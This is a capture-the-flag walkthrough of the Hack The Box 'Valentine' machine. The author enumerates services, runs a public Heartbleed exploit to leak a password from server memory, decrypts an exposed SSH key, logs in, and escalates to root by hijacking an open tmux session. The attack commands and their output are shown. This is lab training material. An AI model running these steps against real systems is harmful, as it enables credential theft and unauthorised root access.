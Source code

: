 ![](pics/logo.png)

# Valentine (Linux)

## Enumeration

```
rustscan --ulimit 5000 10.129.1.190 -- -sC -sV -o port_scan


PORT    STATE SERVICE  REASON  VERSION                                                                                                                                                    
22/tcp  open  ssh      syn-ack OpenSSH 5.9p1 Debian 5ubuntu1.10 (Ubuntu Linux; protocol 2.0)            
80/tcp  open  http     syn-ack Apache httpd 2.2.22 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.2.22 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
443/tcp open  ssl/http syn-ack Apache httpd 2.2.22 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.2.22 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
| ssl-cert: Subject: commonName=valentine.htb/organizationName=valentine.htb/stateOrProvinceName=FL/countryName=US
| Issuer: commonName=valentine.htb/organizationName=valentine.htb/stateOrProvinceName=FL/countryName=US
```

### Examine Port 80 - Apache webserver

![](pics/apache80.png)

```
└──╼ $ gobuster dir -u 10.129.1.190 -w /usr/share/wordlists/dirb/common.txt
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.129.1.190
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirb/common.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2021/01/26 12:55:32 Starting gobuster
===============================================================
/.hta (Status: 403)
/.htaccess (Status: 403)
/.htpasswd (Status: 403)
/cgi-bin/ (Status: 403)
/decode (Status: 200)
/dev (Status: 301)
/encode (Status: 200)
/index (Status: 200)
/index.php (Status: 200)
/server-status (Status: 403)
```

Let's check out the found results one by one

#### Check: /cgi-bin/

The typical vulnerability that comes with the exposed /cgi/bin directory, is Shellshock. It enables RCE and must therefore carefully investigated.

However, it seems like no scripts are in there. At least I did not find them with any wordlist.

### Check: /decode & /encode

![](pics/decoder.png)

Here, we see some kind of service, that offers "Secure Data Decryption". We also have an Encoder service at /encode

![](pics/encoder.png)

### Check: /dev

The dev directory leaks two very interesting files. 
- hype_key: contains an apparently hex encoded string. When converting it to ascii, we can see it's a encrypted RSA private key. Probably for ssh.
- notes.txt:
    ```
    To do:

  1) Coffee.
  2) Research.
  3) Fix decoder/encoder before going live.
  4) Make sure encoding/decoding is only done client-side.
  5) Don't use the decoder/encoder until any of this is done.
  6) Find a better way to take notes.
    ```
    So apparently the decoder and encoder services do have some issues. Let's investiate them further. If we get stuck, we can still try the way of bruteforcing the RSA key password.


## Investigating the Decoder and Encoder Service

Testing the encoder, reveals that it's a simple base64 encoder.

```
Your input:
test
Your encoded input:
dGVzdA== 
```

Same counts for the decoder. It's able to decode base64:

```
Your input:
dGVzdA==
Your encoded input:
test 
```

So what could be the issue with this application? In the note it is stated `"Make sure encoding/decoding is only done client-side"`. Maybe we have some kind of "eval" on the backened that executes the `base64` command. If so, then we could insert a payload and force it to execute it. Let's try that.

Unfortunately, that's not the case. Hmm... what else could the issue be? Why would the note say it should only be done client-side? While looking through the different directories without having any idea what I missed, I recognized the picture that we saw on the index.html page. It's a big red heart, which is the logo of a very well known software bug, the Heartbleed bug.


*The Heartbleed Bug is a serious vulnerability in the popular OpenSSL cryptographic software library. This weakness allows stealing the information protected, under normal conditions, by the SSL/TLS encryption used to secure the Internet. The Heartbleed bug allows anyone on the Internet to read the memory of the systems protected by the vulnerable versions of the OpenSSL software. This compromises the secret keys used to identify the service providers and to encrypt the traffic, the names and passwords of the users and the actual content. This allows attackers to eavesdrop on communications, steal data directly from the services and users and to impersonate services and users. (https://heartbleed.com/#:~:text=The%20Heartbleed%20Bug%20is%20a,used%20to%20secure%20the%20Internet.)*

If the data of encryption and decryption service is also executed server side, then we could leak previous requests to it, as they could still remain in the memory! Maybe it contains some valuable information. Let's try it!

## Gainining an Initial Foothold

As there exist tons of already working scripts, we can simply use one of them e.g. [this one](https://gist.github.com/eelsivart/10174134).
```
└──╼ $ python2 heartbleed.py 10.129.1.190 -p 443

defribulator v1.16
A tool to test and exploit the TLS heartbeat vulnerability aka heartbleed (CVE-2014-0160)

##################################################################
Connecting to: 10.129.1.190:443, 1 times
Sending Client Hello for TLSv1.0
Received Server Hello for TLSv1.0

WARNING: 10.129.1.190:443 returned more data than it should - server is vulnerable!
Please wait... connection attempt 1 of 1
##################################################################

.@....SC[...r....+..H...9...
....w.3....f...
...!.9.8.........5...............
.........3.2.....E.D...../...A.................................I.........
...........
...................................#.......0.0.1/decode.php
Content-Type: application/x-www-form-urlencoded
Content-Length: 42

$text=aGVhcnRibGVlZGJlbGlldmV0aGVoeXBlCg==...r.i...u........yO
```

And indeed! It dumps memory of a previously requested decoding/encoding of another user!

Let's decode it and see what the plaintext is:

```
echo "aGVhcnRibGVlZGJlbGlldmV0aGVoeXBlCg==" | base64 -d

heartbleedbelievethehype
```

This looks like a password! As we have an encrypted rsa key, which was stored in `hype_key`, we can also now safely assume, that the username is probably `hype`.

Using openssl + the obtained password, we can now decrypt the key. 

```
openssl rsa -in encrpted_key -out hype_ssh_key
```

Afterwards we use it to connect to the server as user hype.

```
ssh -i hype_ssh_key hype@10.129.1.190

hype@Valentine:~$ hostname && id
Valentine
uid=1000(hype) gid=1000(hype) groups=1000(hype),24(cdrom),30(dip),46(plugdev),124(sambashare)
```

## Privilege Escalation

Running linpeas, we see that root has an open tmux session located in `/.dev/dev_sess`. As our user has permissions to that file, we can simply attach to it with:

```
tmux -S /.dev/dev_sess
```

And we are root!
```
root@Valentine:/.devs# hostname && id
Valentine
uid=0(root) gid=0(root) groups=0(root)
```
